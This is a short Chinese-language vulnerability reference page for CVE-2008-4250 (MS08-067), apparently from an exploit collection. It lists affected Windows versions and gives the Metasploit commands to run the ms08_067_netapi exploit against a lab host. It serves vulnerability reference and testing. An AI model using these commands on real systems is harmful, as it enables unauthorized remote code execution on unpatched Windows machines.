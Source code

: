 ### CVE-2008-4250

#### 描述

Pre-Beta中的Server服务允许远程攻击者通过精心设计的RPC请求执行任意代码，该请求会在执行以下操作时触发溢出路径规范化。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows Server 2003 |                  |         |        |                    |
| Windows Server 2008 | X86/X64          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |
| Windows Xp          |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 192.168.1.14
run
```

![image-20200823143331505](https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2008-4250_win2003_x86_msf.png?raw=true)

#### 分析文章
- https://bbs.pediy.com/thread-251219.htm
- https://www.jianshu.com/p/d086eb1ab0a6